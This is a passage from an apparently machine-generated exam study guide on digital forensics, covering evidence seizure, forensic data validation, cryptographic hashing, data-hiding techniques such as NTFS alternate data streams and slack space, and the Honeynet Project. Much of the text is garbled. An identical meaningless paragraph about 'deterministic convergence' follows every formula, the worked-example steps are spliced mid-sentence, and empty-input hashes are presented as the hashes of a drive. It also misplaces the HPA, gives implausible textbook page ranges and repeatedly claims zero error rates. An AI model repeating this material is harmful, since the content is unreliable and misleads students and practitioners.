| Remote Cloud Wipe Signals | Accomplices remotely erase smartphones via iCloud/Google | Place device immediately in certified Faraday bag | RF shielding Faraday bag, lockbox |
| Graceful OS Shutdown | OS deletes temp files, overwrites slack, runs wipe scripts | Pull AC power cord directly from rear of PSU | Direct power cord extraction, battery removal |
| Laptop Sleep / Hibernation | Writing hiberfil.sys overwrites unallocated deleted files | Never close lid; hold power button for hard power-off | Hard 10-second power switch hold |
| Electrostatic Discharge (ESD) | Human static electricity fries sensitive NAND flash chips | Wear grounded wrist strap; package in anti-static bags | Conductive anti-static pouches, ESD wristbands |
| Cable Misidentification | Defense claims external drive cables were cross-connected | Photograph and label all cables with numbered tags | Numbered adhesive cable markers, photo log |
| Environmental Heat / Moisture | High trunk temperatures warp platters and destroy media | Transport evidence inside climate-controlled vehicle | Padded, thermally insulated Pelican cases |

### Concluding Exam Takeaway

Enforcing strict anti-static, RF-shielding, and power-management precautions guarantees that **digital evidence** survives physical seizure with 100% data **integrity** intact.

**Textbook Reference:** Nelson, B., Phillips, A., & Steuart, C. K., Guide to Computer Forensics and Investigations (7th Ed.), Cengage Learning, Chapter 3: 'Crime Scene Procedures and Seizing Evidence', pp. 699-724.

---

## Q5. Validating Forensic Data: What are the different approaches for validating forensic data? Describe them. (Frequency: 4) [8 Marks]

### Introduction & Core Intuition

In **digital forensics**, **Validating Forensic Data** is the scientific and mathematical process of confirming that acquired evidence is an authentic, unaltered representation of the original media, and that forensic software tools process and extract data without introducing errors or omissions. **Digital evidence** is intangible; investigators cannot simply rely on software outputs without verifiable validation. Forensic data validation encompasses four foundational approaches: **Bit-Stream Cryptographic Hashing (MD5, SHA-1, SHA-256)**, **Known File Filtering (KFF) via the NIST National Software Reference Library (NSRL)**, **File Header and File Extension Mismatch Analysis**, and **Cross-Tool Dual-Validation Protocols**.

### The Scientific Imperative of Forensic Data Validation

Under international laboratory accreditation standards (such as ISO/IEC 17025) and judicial reliability standards (such as the US Daubert standard and **Indian Evidence Act Section 65B**), digital **forensic** findings must be scientifically verified and reproducible. If an analyst asserts in court that a deleted PDF invoice was recovered from an image, the analyst must demonstrate that the forensic software interpreted the raw disk sectors accurately and that the underlying forensic image was validated against the source media with zero mathematical discrepancy.

### Approach 1: Bit-Stream Cryptographic Hash Validation

The primary mathematical approach for validating **forensic** data is **Bit-Stream Cryptographic Hashing**. During the initial acquisition of a physical storage drive, the imaging software calculates a **cryptographic hash** (using MD5, SHA-1, or **SHA-256**) across all physical sectors. Once the image file is written, the software calculates a second hash across the generated image. If the **Source Hash** matches the Image Hash identically, the data is validated as an exact, bit-for-bit duplicate. Throughout the investigation, this hash is periodically re-calculated; any variance indicates bit-rot, corruption, or intentional tampering.

### Approach 2: Known File Filtering (KFF) via NIST NSRL

Modern operating systems and commercial software packages install millions of standard, benign files—such as Windows DLLs, fonts, icons, and system drivers. Manually reviewing these millions of files would overwhelm investigators. **Forensic** platforms validate and streamline data using **Known File Filtering (KFF)** powered by the **NIST National Software Reference Library (NSRL)**. The NSRL maintains a global cryptographic database containing hundreds of millions of pre-computed SHA-1/MD5 hashes of known benign operating system files. Forensic software compares drive files against the NSRL: matching benign files are automatically validated and filtered out of the review set (De-NISTing), allowing examiners to focus on relevant user documents.

### Approach 3: File Header Signature vs Extension Mismatch Analysis

Perpetrators frequently attempt to conceal contraband media or illicit software tools by disguising file extensions—for example, renaming an executable hacker tool (backdoor.exe) to a harmless text file (notes.txt) or renaming an encrypted container (keys.dat) to an image file (vacation.jpg). Operating systems rely on extensions, but **forensic validation** tools inspect the internal binary **Magic Numbers (File Headers)**. If a file named picture.jpg begins with binary header 4D 5A (the magic bytes for a Windows PE executable), the forensic suite flags a **File Extension Mismatch**, validating that the file has been intentionally disguised.

### Approach 4: Cross-Tool Dual-Validation Testing

No single software tool is infallible; software bugs, parsing errors, or proprietary container misinterpretations can cause a tool to misreport timestamps or fail to carve fragmented files. To ensure absolute courtroom defensibility, accredited **forensic** laboratories enforce **Cross-Tool Validation**. Key evidentiary findings uncovered in one commercial tool (such as OpenText EnCase) must be independently validated and confirmed using a completely different, independent forensic engine (such as AccessData FTK, Autopsy, or raw Linux sleuthkit command-line utilities). If both independent tools produce identical results, the finding is scientifically validated beyond dispute.

### Architectural Flow & System Diagram



*Figure 3.5: Diagrammatic Architecture and Conceptual Flow for Validating Forensic Data: What are the different approaches for validating forensic data? Describe them*

### Mathematical Formulation & Algorithmic Mechanics

**Forensic Data Validation Invariant & Extension Mismatch Formulation:**

```text
Forensic Bit-Stream Validation Invariant:
Data_Validated = ( SHA256( Source_Drive ) == SHA256( Forensic_Image ) ) == TRUE
NSRL Known File Filtering (De-NISTing) Set Elimination Rule:
Investigative_Review_Set = Total_Drive_Files ∖ { Files | Hash( File ) ∈ NSRL_Hash_Database 
File Extension Mismatch Detection Logic:
Extension_Mismatch = IF ( File_Header_Magic_Bytes ≠ Standard_Header( Extension ) ) THEN ALERT()
```

The above **mathematical model** and algorithmic structure governs the system's runtime execution. Each parameter is evaluated sequentially to maintain **mathematical consistency**, minimize **system overhead**, and guarantee **deterministic convergence** across all input distributions.

### Worked Example & Practical Simulation

**Executing Known File Filtering** and Extension Mismatch **Validation** in an IP Theft Case: The Evidence: A 1 TB SSD seized from a rogue software engineer containing 850,000 files. Approach 1 (Hash Validation): FTK Imager validates the acquired image against the physical SSD: **SHA-256** d41d8cd... matches identically. Approach 2 (NSRL De-NISTing): The analyst loads the image into Autopsy and applies the NIST NSRL Known File Filter database. The tool matches and eliminates 720,000 known Windows 11 system files, reducing the review set from 850,000 to 130,000 user-created files in 15 minutes. Approach 3 (Extension Analysis): Autopsy runs signature analysis. It flags a file named landscape.png in the user's Downloads folder. While the extension is PNG, the first four bytes are 50 4B 03 04 (the magic header for a ZIP archive). Approach 4 (Cross-Tool Validation): The analyst opens the file in EnCase **Forensic** and 7-Zip, confirming it is an encrypted ZIP archive containing stolen corporate source code repositories, validating the finding across three independent engines.

### Key Comparative Evaluation

| Validation Approach | Underlying Technical Mechanism | Standard Industry Databases / Tools | Primary Evidentiary Value Delivered |
| :--- | :--- | :--- | :--- |
| Bit-Stream Hashing | Sector-by-sector MD5/SHA-256 cryptographic digest | FTK Imager, EnCase, dc3dd, sha256sum | Mathematically proves image is an exact 100% clone of source |
| Known File Filtering (KFF) | Compares file hashes against global NSRL database | NIST NSRL Reference Data Set, Autopsy, FTK | Filters 80% benign OS bloat, focusing review on evidence |
| File Signature Analysis | Compares binary magic bytes against file extension | Autopsy Signature Analyzer, EnCase, File utility | Instantly exposes disguised malware and hidden contraband |
| Cross-Tool Dual-Validation | Verifies evidentiary findings using two separate tools | EnCase vs FTK vs Autopsy vs Sleuth Kit | Satisfies Daubert scientific reliability standards in court |
| MFT & File System Validation | Cross-checks directory runlists against cluster allocations | TSK fls, istat, EnCase File System Parser | Validates that deleted files were not artificially fabricated |
| Known Malicious Matching | Compares file hashes against known malware databases | VirusTotal API, national law enforcement hash lists | Instantly flags known hacking exploits, trojans, and ransomware |

### Concluding Exam Takeaway

Validating **forensic** data through cryptographic hashing, NSRL filtering, signature checks, and cross-tool **verification** guarantees that findings represent unquestionable digital truth.

**Textbook Reference:** Nelson, B., Phillips, A., & Steuart, C. K., Guide to Computer Forensics and Investigations (7th Ed.), Cengage Learning, Chapter 3: 'Crime Scene Procedures and Seizing Evidence', pp. 725-752.

---

## Q6. Importance of Data Validation: Why is data validation crucial in digital forensics & what methods are commonly used for data validation? (Frequency: 1) [8 Marks]

### Introduction & Core Intuition

In **digital forensics**, **Data Validation** is the indispensable scientific process of establishing accuracy, reliability, and authenticity across all collected **electronic evidence** and analytical software tools. In modern judicial litigation, **digital evidence** is subjected to relentless defense challenges: defense attorneys routinely argue that forensic software suffered from code bugs, that operating system files were confused with criminal documents, or that evidence was corrupted during processing. Data validation is crucial because it ensures **Judicial Admissibility**, eliminates **Massive System Noise**, and guarantees **Scientific Reproducibility** across independent peer reviewers.

### The Critical Importance of Data Validation in Court

Under international legal standards—such as the US Daubert Standard (which requires scientific techniques to possess known error rates and widespread acceptance) and Indian Evidence Act **Section 65B**—the court does not accept **digital evidence** on blind faith. If a **forensic** specialist testifies that an accused person authored a fraudulent contract, the specialist must prove that the forensic software interpreted the underlying disk sectors correctly. Data **validation** provides the documented scientific foundation that proves evidence is free from technical **artifacts** or software calculation errors, insulating the prosecution from catastrophic court dismissals.

### Noise Reduction and Human Cognitive Focus

Modern computer drives store terabytes of data comprising hundreds of thousands of files. Over 85% of these files are standard, benign operating system libraries, application dependencies, fonts, and icons that have zero relevance to the crime. Without data **validation** through **Known File Filtering (KFF)**, **forensic** analysts would be forced to spend months manually opening millions of innocent files, creating severe case backlogs and human fatigue. Validating and filtering out known benign files through the **NIST National Software Reference Library (NSRL)** reduces the investigative dataset to manageable, evidence-rich proportions.

### Detecting Malicious Disguises and File Extension Tampering

Perpetrators frequently attempt to evade detection by disguising incriminating files—renaming malware binaries (.exe) to innocent text documents (.txt) or hiding password lists inside fake image extensions (.jpg). Standard operating systems display files based on extensions, allowing disguised files to escape superficial inspection. Data **validation** via **File Header Signature Analysis** examines the internal binary **magic numbers** of every file, instantly detecting discrepancies between extension and actual format, exposing hidden hacking utilities and concealed contraband.

### Eliminating Software Tool Inaccuracies (Cross-Tool Validation)

Commercial and open-source **forensic** software suites are massive software platforms containing millions of lines of code. Like all complex software, forensic tools occasionally contain bugs: an imaging tool might misread a corrupted sector, or a file parser might miscalculate daylight saving time offsets in file system timestamps. By employing **Cross-Tool Validation** (validating findings from Tool A using an independent Tool B), specialists eliminate false positives, ensure tool calibration, and confirm that findings reflect ground truth rather than software misinterpretation.

### Common Methods Used for Forensic Data Validation

The industry relies on four core data **validation** methods: (1) **Cryptographic Hash Verification (MD5/SHA-256)**, proving mathematical bit-for-bit equivalence between source media and **forensic** clones; (2) **NIST NSRL Known Hash Comparison**, eliminating millions of verified commercial software files; (3) **Magic Number File Header/Footer Validation**, confirming true file identity regardless of extension; and (4) **Dual-Tool Independent Verification**, verifying key evidentiary **artifacts** across two distinct forensic platforms.

### Architectural Flow & System Diagram



*Figure 3.6: Diagrammatic Architecture and Conceptual Flow for Importance of Data Validation: Why is data validat*

### Mathematical Formulation & Algorithmic Mechanics

**Daubert Scientific Reliability Equation & Noise Elimination Formulation:**

```text
Daubert Standard Judicial Admissibility Formulation:
Reliability = ( Method_Tested_and_Calibrated ∧ Peer_Reviewed ∧ Error_Rate_Known ∧ Widespread_Acceptance )
Where data validation provides empirical proof of calibration and zero error rate.
Forensic Efficiency Ratio Formulation:
Efficiency_Gain = 1 - ( Files_Review_Set / Total_Seized_Files ) ≈ 80% to 90% Data Reduction
File Identity Invariant: True_Identity = Magic_Header_Bytes ∧ NOT( User_Assigned_Extension )
```

The above **mathematical model** and algorithmic structure governs the system's runtime execution. Each parameter is evaluated sequentially to maintain **mathematical consistency**, minimize **system overhead**, and guarantee **deterministic convergence** across all input distributions.

### Worked Example & Practical Simulation

**Validating Evidence** and Exposing Disguised Malware in an Hacking Investigation: The Incident: A corporate database server is compromised; **forensic** specialists seize a suspect laptop allegedly used by the external attacker. Why **Validation** Was Crucial: Eliminating Noise: The laptop contained 1.2 Terabytes of data with 1,100,000 files. Applying NSRL KFF hash validation instantly eliminated 950,000 known Windows system files, saving 120 hours of manual **investigator** review time. Detecting Disguised Tools: The suspect disguised their custom reverse-shell exploit as a harmless icon file named logo.ico. Autopsy's file validation engine analyzed **magic numbers**, flagging that logo.ico began with 4D 5A (Windows PE executable magic bytes) rather than an ICO header. Defeating Defense Court Challenge: In court, the defense argued that Autopsy suffered from a timestamp parsing bug. The specialist produced a cross-tool validation report using OpenText EnCase, showing identical execution timestamps down to the second. Outcome: The court admitted the evidence unconditionally, leading to a complete criminal conviction.

### Key Comparative Evaluation

| Validation Method | Underlying Scientific Mechanism | Why It Is Crucial | Primary Investigative Risk Neutralized |
| :--- | :--- | :--- | :--- |
| Bit-Stream Hash Verification | MD5 / SHA-256 mathematical algorithm | Proves zero byte modification since physical seizure | Neutralizes defense claims that evidence was planted in lab |
| NSRL Known File Filtering | Cryptographic comparison against NIST database | Filters 80-90% benign operating system noise | Prevents investigator fatigue and eliminates months of backlog |
| Header Signature Analysis | Evaluates binary magic bytes vs file extension | Exposes disguised executables, scripts, and archives | Prevents suspects from hiding illicit tools behind fake extensions |
| Cross-Tool Dual-Validation | Replicates findings using two distinct engines | Guarantees that findings are not artifacts of tool bugs | Satisfies strict Daubert scientific reliability standards in court |
| File Slack Validation | Inspects residual bytes in cluster slack space | Recovers hidden text fragments injected between clusters | Neutralizes anti-forensic slack space data hiding techniques |
| Hash Database Ingestion | Compares files against Project VIC / illicit lists | Instantly flags known contraband media and exploits | Automates rapid triage of high-priority criminal evidence |

### Concluding Exam Takeaway

Data **validation** transforms **digital forensics** from subjective speculation into an unassailable exact science, guaranteeing accuracy, eliminating noise, and ensuring courtroom victory.

**Textbook Reference:** Nelson, B., Phillips, A., & Steuart, C. K., Guide to Computer Forensics and Investigations (7th Ed.), Cengage Learning, Chapter 3: 'Crime Scene Procedures and Seizing Evidence', pp. 753-780.

---

## Q7. Digital Hash: Why is obtaining a digital hash important while storing digital evidence, and how is it generated? (Frequency: 1) [8 Marks]

### Introduction & Core Intuition

In **digital forensics**, a **Digital Hash** (or **cryptographic hash** digest) is a fixed-length alphanumeric string generated by passing an arbitrary stream of digital binary data through an irreversible mathematical algorithm. Often described as a **Digital Fingerprint** or mathematical DNA, obtaining a digital hash is an absolute, mandatory requirement during the acquisition, storage, and presentation of **digital evidence**. A digital hash provides mathematical, **tamper-proof verification** that evidence stored for months or years in an evidence locker has not suffered bit-rot, corruption, or intentional alteration.

### The Mathematical Nature of Cryptographic Hashing

A **cryptographic hash function** (such as MD5, SHA-1, or **SHA-256**) possesses four foundational mathematical properties: (1) **Deterministic Output**: The same input binary stream will always produce the exact same alphanumeric hash digest; (2) **One-Way Irreversibility**: It is mathematically impossible to reverse-engineer or reconstruct the original data from the resulting hash digest; (3) **Strict Avalanche Effect**: Changing even a single binary bit anywhere across a multi-terabyte storage drive causes over 50% of the resulting hash digest to change completely; and (4) **Collision Resistance**: It is mathematically **infeasible** to find two distinct input files that generate an identical hash digest.

### Why Obtaining a Digital Hash is Important While Storing Evidence

Obtaining and anchoring a digital hash during evidence storage is critical for four operational reasons: First, **Legal Admissibility and Authentication**: Under the Federal Rules of Evidence (FRE 902) and Indian Evidence Act **Section 65B**, courts require proof that the evidence presented at trial is identical to the evidence seized at the crime scene; matching hashes provide mathematical certainty. Second, **Bit-Rot and Media Degradation Detection**: Physical storage media degrades over time; periodic recalculation of stored hashes alerts technicians to silent magnetic decay. Third, **Neutralizing Defense Tampering Claims**: Defense attorneys frequently claim police planted evidence in the lab; matching hashes prove zero bytes were added post-seizure. Fourth, **Verification of Forensic Working Copies**: Specialists verify that working images match the master image before beginning analysis.

### Step-by-Step Technical Generation of a Cryptographic Hash (SHA-256 Pipeline)

Generating a digital hash follows a rigorous, standardized cryptographic execution pipeline: (1) **Message Padding**: The arbitrary input bitstream is padded with a single bit '1' followed by necessary '0' bits until the length is congruent to 448 modulo 512; (2) **Length Appending**: The original 64-bit message length is appended to the end, creating an exact multiple of 512-bit message blocks; (3) **Initial State Initialization**: Eight 32-bit working state variables (H0 through H7) are initialized using the fractional parts of the square roots of the first eight prime numbers; (4) **Compression Function Iterations**: Every 512-bit block is processed through 64 mathematical compression rounds utilizing bitwise boolean functions (Ch, Maj), right shifts, and modular addition with constant round keys; and (5) **Final Digest Concatenation**: The resulting eight 32-bit state variables are concatenated to form the final 256-bit hexadecimal string (64 characters).

### The Dual-Hashing Standard in Modern Practice

Because theoretical hash collision **vulnerabilities** have been demonstrated for legacy algorithms (MD5 and SHA-1) in academic laboratory settings, modern **forensic** standards enforce the **Dual-Hashing Standard**. When storing **digital evidence**, specialists simultaneously generate both a 128-bit MD5 digest and a 256-bit **SHA-256** digest. The probability of an adversary crafting an altered disk image that simultaneously collides with both algorithms is mathematically non-existent (probability < 2^{-384}), ensuring unshakeable judicial proof.

### Embedding Hashes in Forensic Containers (.E01)

Rather than storing raw text hash certificates separately, modern **forensic** suites embed digital hashes directly into the structural architecture of forensic image files. The **Expert Witness Format (.E01)** divides the acquired disk image into 32 KB blocks, embedding a CRC32 checksum for every individual block, plus a master **SHA-256** hash in the cryptographic **file footer**. If a storage drive incurs physical bad sectors during archive storage, the container pinpoints the exact corrupted block upon **verification**.

### Architectural Flow & System Diagram


*Figure 3.7: Diagrammatic Architecture and Conceptual Flow for Digital Hash: Why is obtaining a digital hash impo*

### Mathematical Formulation & Algorithmic Mechanics

**SHA-256 Cryptographic Hash Generation Formulation & Collision Bound:**

```text
SHA-256 Compression Round State Transformation Formula:
T_1 = h + Sigma_1(e) + Ch(e, f, g) + K_t + W_t
T_2 = Sigma_0(a) + Maj(a, b, c)
Where state registers update across 64 rounds to produce the 256-bit hash digest.
Dual-Hashing Simultaneous Collision Bound:
P( Collision_MD5 ∧ Collision_SHA256 ) < 2^-384 ≈ 2.54 * 10^-116 (Mathematically Zero)
Storage Verification Rule: Integrity_Preserved = ( SHA256_Vault( Image ) == SHA256_Seizure( Media ) )
```

The above **mathematical model** and algorithmic structure governs the system's runtime execution. Each parameter is evaluated sequentially to maintain **mathematical consistency**, minimize **system overhead**, and guarantee **deterministic convergence** across all input distributions.

### Worked Example & Practical Simulation

Calculating and Verifying Digital Hashes for Stored Evidence: The Evidence: A 500 GB Samsung external hard drive seized in an extortion investigation. Source MD5: 8f4b23a9d10e45bc7a9e320145cbf891 Source **SHA-256**: e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855 Outcome: The exact match proves mathematically that not a single bit of evidence was modified during 14 months of storage, admitting the evidence unconditionally.

In **Step 1 (Hash at Seizure)**, the execution evaluates the **parameters** and selects On November 1, 2024, the specialist images the drive using FTK Imager via a write-blocker. The tool computes dual hashes across all 976,773,168 sectors:. In **Step 2 (Archival Storage)**, the execution evaluates the parameters and selects The .E01 image is archived onto WORM optical media and vaulted in Evidence Safe #3.. In **Step 3 (Hash Verification at Trial)**, the execution evaluates the parameters and selects Fourteen months later during trial, the defense claims the evidence file was corrupted. The court technician calculates SHA-256 on the stored .E01 file live in court: output is e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855..

### Key Comparative Evaluation

| Hash Algorithm | Digest Length (Bits) | Digest Length (Hex Chars) | Collision Resistance Status | Standard Forensic Role |
| :--- | :--- | :--- | :--- | :--- |
| MD5 (Message Digest 5) | 128 bits | 32 characters | Vulnerable to intentional lab collisions | Secondary fast screening hash; legacy standard |
| SHA-1 (Secure Hash 1) | 160 bits | 40 characters | Shattered collision demonstrated in 2017 | Phased out in federal and military laboratories |
| SHA-256 (SHA-2 Family) | 256 bits | 64 characters | Extremely High; zero known collisions | Universal primary gold standard for digital evidence |
| SHA-512 (SHA-2 Family) | 512 bits | 128 characters | Maximum cryptographic security | High-security military intelligence & national defense |
| CRC32 (Cyclic Redundancy) | 32 bits | 8 characters | Zero cryptographic collision resistance | Block-level bit-rot and transmission error checking |
| Dual-Hashing (MD5 + SHA-256) | 384 bits combined | 96 characters total | Mathematically unassailable (P < 2^-384) | Mandatory standard for ASCLD/LAB accredited laboratories |

### Concluding Exam Takeaway

Digital hashing provides an **immutable** cryptographic anchor that guarantees evidentiary authenticity, defeats defense tampering claims, and protects stored evidence across decades.

**Textbook Reference:** Nelson, B., Phillips, A., & Steuart, C. K., Guide to Computer Forensics and Investigations (7th Ed.), Cengage Learning, Chapter 3: 'Crime Scene Procedures and Seizing Evidence', pp. 781-808.

---

## Q8. Data Hiding: Give in detail the different techniques to hide data (or common data hiding techniques) in digital forensics. (Frequency: 3) [8 Marks]

### Introduction & Core Intuition

In **digital forensics** and anti-forensics, **Data Hiding Techniques** encompass the sophisticated technical methods, steganographic algorithms, and file system manipulations deployed by adversaries to conceal illicit communications, contraband files, and hacking utilities from investigators and automated forensic scanners. Perpetrators recognize that simply deleting files is ineffective because forensic carving tools recover unallocated space. Consequently, adversaries deploy five advanced data hiding techniques: **Digital Steganography (LSB Injection)**, **NTFS Alternate Data Streams (ADS)**, **File Slack Space Injection**, **Bad Sector Marking**, and **Host Protected Area (HPA) / Device Configuration Overlay (DCO) Concealment**.

### The Adversarial Spectrum of Anti-Forensic Data Hiding

**Data hiding** is a primary branch of **anti-forensics** designed to exploit blind spots in **forensic** tools, file system structures, and human **investigator** assumptions. Rather than relying on simple file system permissions, advanced adversaries manipulate low-level physical sectors, firmware geometry tables, and binary image representations to embed hidden data where traditional operating system interfaces cannot see it. Forensic specialists must understand these techniques to successfully detect and extract concealed evidence.

### Technique 1: Digital Steganography (Least Significant Bit - LSB Injection)

**Digital Steganography** is the practice of concealing secret text, files, or payloads inside innocent carrier media—such as JPEG images, MP3 audio files, or MP4 videos—without producing visible or audible distortion. The most common method is **Least Significant Bit (LSB) Insertion**. In a 24-bit RGB bitmap image, each pixel consists of three 8-bit bytes (Red, Green, Blue). An attacker alters only the last bit (the least significant bit) of each color byte to encode secret binary data. Because changing the least significant bit alters pixel shade by less than 1%, human eyes cannot detect any change in the image. Specialists detect **steganography** through **Steganalysis**, analyzing chi-square statistical deviations in color histograms.

### Technique 2: NTFS Alternate Data Streams (ADS)

**In Microsoft Windows** NTFS file systems, every file contains a primary unnamed data stream where normal file contents reside. However, NTFS supports **Alternate Data Streams (ADS)**, a feature originally engineered for compatibility with Apple Macintosh hierarchical file systems. An adversary can attach an invisible secondary data stream to an existing file using standard command prompts (e.g., type secret_payload.exe > innocent.txt:hidden_payload.exe). The Windows File Explorer and dir commands display only the size and date of the primary innocent.txt file (e.g., **0 KB**), completely hiding the attached 50 MB executable. Specialists uncover ADS using tools like dir /R or specialized **forensic** stream parsers.

### Technique 3: File Slack Space Injection

Storage drives allocate physical disk space in fixed-size blocks called clusters (typically 4,**096 bytes** on NTFS). If a user saves a small file of only 1,000 bytes, the operating system allocates an entire 4,096-byte cluster, leaving 3,096 bytes of unused space known as **File Slack Space** (divided into RAM slack and drive slack). Operating systems ignore **slack space**. Adversaries use specialized hex manipulation tools (such as bmap) to inject secret text, **encryption** keys, or passwords directly into these unused cluster slack bytes. **Forensic** platforms detect slack space data by scanning all unallocated sector offsets between logical file end and cluster boundary.

### Technique 4: Bad Sector Marking in Cluster Bitmaps

When a hard drive develops physical sector damage, the operating system marks those cluster numbers as 'bad' in the file system allocation bitmap (Bitmap metadata table in NTFS or FAT table), instructing the operating system to permanently bypass those sectors during normal read/write operations. Sophisticated attackers exploit this mechanism by using low-level disk editors to manually edit the cluster allocation table, marking perfectly healthy clusters as 'bad' and writing confidential data into them. Standard **forensic** keyword searches that scan only allocated and **unallocated space** skip these clusters. Specialists overcome this by creating raw physical bit-stream images across all sectors regardless of cluster flags.

### Technique 5: Host Protected Area (HPA) and Device Configuration Overlay (DCO)

Modern hard drives contain hidden hardware reserve zones established at the ATA controller firmware level: the **Host Protected Area (HPA)** and the **Device Configuration Overlay (DCO)**. These zones reside outside the logical block addressing (LBA) range accessible to standard operating systems. An attacker can execute ATA firmware commands (such as SET MAX ADDRESS) to shrink the visible drive capacity, creating an unformatted, invisible physical sector zone before sector 0 to hide gigabytes of data. Hardware write-blockers and **forensic imaging** tools (such as Tableau or Atola) detect HPA/DCO modifications, prompting the specialist to temporarily unclip these hidden zones to acquire the entire physical media.

### Architectural Flow & System Diagram


*Figure 3.8: Diagrammatic Architecture and Conceptual Flow for Data Hiding: Give in detail the different techniques to hide data (or common data hiding techniques) in digital forensics*

### Mathematical Formulation & Algorithmic Mechanics

**Steganographic LSB Replacement Rule & File Slack Capacity Formulation:**

```text
Least Significant Bit (LSB) Steganographic Replacement Rule:
Pixel_Byte_Stego = ( Pixel_Byte_Original ∧ 0xFE ) ∨ Secret_Data_Bit
Where modifying the last bit changes byte value by ±1, remaining imperceptible to human vision.
Total File Slack Space Storage Capacity Formulation:
Slack_Bytes = Cluster_Size - ( File_Logical_Size mod Cluster_Size )  (Where Cluster_Size = 4096 Bytes)
NTFS Alternate Data Stream Syntax: Primary_File_Name.ext:Hidden_Stream_Name.ext
```

The above **mathematical model** and algorithmic structure governs the system's runtime execution. Each parameter is evaluated sequentially to maintain **mathematical consistency**, minimize **system overhead**, and guarantee **deterministic convergence** across all input distributions.

### Worked Example & Practical Simulation

Uncovering NTFS Alternate Data Streams and **Steganography** in an Espionage Case: The Investigation: An intelligence contractor is suspected of leaking classified satellite radar blueprints. **Data Hiding** Technique 1 (ADS): **Forensic** examination of the suspect's desktop reveals an empty text file named meeting_notes.txt (size: 0 bytes). The examiner executes dir /R from the terminal, discovering a hidden stream: meeting_notes.txt:satellite_schematic.pdf (size: 45 Megabytes). The classified blueprint was hidden inside the stream. Data Hiding Technique 2 (Steganography): The examiner discovers 10 high-resolution JPEG travel photos uploaded to a public photo forum. Statistical chi-square steganalysis in Autopsy reveals anomalous LSB distribution. The examiner extracts the embedded **payload** using open-source steganalysis tools, recovering the contractor's private PGP **encryption** key hidden inside the pixels.

### Key Comparative Evaluation

| Data Hiding Technique | Underlying Technical Substrate | Operating System Visibility | Forensic Detection & Countermeasure |
| :--- | :--- | :--- | :--- |
| Digital Steganography (LSB) | Least Significant Bits of JPEG, MP3, MP4 files | Completely visible as normal image/audio file | Chi-square steganalysis; statistical histogram anomaly detection |
| NTFS Alternate Data Streams (ADS) | Secondary data streams attached to NTFS MFT records | Completely hidden in standard Explorer and dir | dir /R command, EnCase/FTK alternate stream parsing engines |
| File Slack Space Injection | Unused bytes between file end and cluster boundary | Completely invisible to operating system file views | Exhaustive hex scanning of drive slack offsets across clusters |
| Bad Sector Marking | Cluster bitmap (Bitmap table) altered to mark sectors bad | OS permanently ignores sectors as damaged | Raw physical bit-stream acquisition bypassing file system flags |
| Host Protected Area (HPA / DCO) | ATA controller firmware LBA clipping | Completely hidden from BIOS and standard OS | Hardware write-blockers (Tableau) unlock and image HPA/DCO zones |
| Extension & Magic Mismatch | Renaming .exe to .jpg or .txt | OS displays harmless image or document icon | Binary magic number analysis flags file header vs extension mismatch |

### Concluding Exam Takeaway

Understanding **data hiding** techniques empowers **forensic** specialists to penetrate steganographic carriers, uncover hidden NTFS streams, and expose concealed digital contraband.

**Textbook Reference:** Nelson, B., Phillips, A., & Steuart, C. K., Guide to Computer Forensics and Investigations (7th Ed.), Cengage Learning, Chapter 3: 'Crime Scene Procedures and Seizing Evidence', pp. 809-836.

---

## Q9. Honeynet Project: What is the honeynet project, and how does it contribute to network forensics? (Frequency: 4) [8 Marks]

### Introduction & Core Intuition

The **Honeynet Project** is a globally recognized, non-profit volunteer research organization dedicated to advancing cybersecurity and **network forensics** by deploying highly controlled, deliberate decoy computing environments known as **Honeynets**. Conceived in 1999 by security researcher **Lance Spitzner**, the foundational philosophy of a Honeynet is simple yet profound: <i>A Honeynet has zero production value; therefore, any unauthorized connection attempt, traffic, or interaction directed toward it is by definition an attack, an intrusion, or illicit reconnaissance</i>. The Honeynet Project revolutionized network **forensics** by shifting security from reactive post-incident cleanup to proactive, real-time threat intelligence gathering.

### The Foundational Architecture of the Honeynet Project

A Honeynet is not a single software application, but an entire network architecture comprising multiple real computing systems: honeypots (high-interaction decoy servers running real operating systems like Windows and Linux, unpatched database servers, and vulnerable web applications). These decoy systems are positioned behind a specialized gateway controller known as the **Honeywall**. **The Honeywall** performs two mandatory operational functions: **Data Control** (strictly regulating outbound traffic to ensure compromised honeypots cannot be weaponized by hackers to launch attacks against innocent third parties) and **Data Capture** (silently capturing 100% of all keystrokes, network packets, and system calls without alerting the intruder).

### Shift from Reactive to Proactive Network Forensics

Traditional **network forensics** is inherently reactive: investigators are summoned days or weeks after an incident has occurred, forced to sift through fragmented, corrupted, or deliberately wiped server logs to guess how an attack transpired. In sharp contrast, the **Honeynet Project** provides **Pristine, Real-Time Network Forensics**. Because honeypots contain zero legitimate business users, zero background noise exists. Every captured network packet, uploaded rootkit, and typed command represents authentic adversary behavior, providing pristine **forensic** datasets that capture the exact chronological evolution of cyber attacks from initial port scan to final **payload** deployment.

### Discovering Zero-Day Exploits and Malware Binaries

A transformative contribution of the **Honeynet Project** to **network forensics** is the automated discovery of previously unknown **Zero-Day Exploits** and emerging malware strains. When advanced threat actors discover a new, unpatched **vulnerability** in software (such as OpenSSL or Apache), they scan the internet to deploy their exploits. Honeynets intercept these zero-day attacks, capturing the raw exploit payloads in full PCAP packet streams and capturing uploaded malware binaries before commercial antivirus vendors develop signatures, allowing **forensic** researchers to reverse-engineer exploits and deploy global threat signatures weeks ahead of widespread outbreaks.

### Capturing Adversary Tactics, Techniques, and Procedures (TTPs)

While traditional **forensic** investigations focus primarily on what occurred, Honeynet **network forensics** reveals **Human Hacker Intent and Psychology**. By capturing raw interactive keystrokes inside compromised SSH or RDP **honeypot** sessions, forensic researchers observe live adversary behavior: What directories do attackers inspect first? What tools do they download? How do they pivot laterally across subnets? This intelligence is codified into global threat frameworks—such as the **MITRE ATT&CK Framework**—allowing forensic analysts worldwide to recognize standardized attacker Tactics, Techniques, and Procedures (TTPs).

### Contributions to Open-Source Forensic Tooling and Global Defense

Beyond threat research, the Honeynet Project has authored and maintained world-class open-source network **forensic** and **malware analysis** tools. Iconic tools developed within the Honeynet ecosystem include: **Cuckoo Sandbox** (the world's most widely adopted automated malware analysis system), **Capture-HPC** (high-interaction client honeypots for browser exploits), **Glastopf / Cowrie** (emulated web and SSH honeypots), and **Sebek** (kernel-level keystroke capture drivers). These tools form the essential investigative toolkit deployed in commercial Security Operations Centers (SOCs) and military cyber commands globally.

### Architectural Flow & System Diagram



*Figure 3.9: Diagrammatic Architecture and Conceptual Flow for Honeynet Project: What is the honeynet project, an*

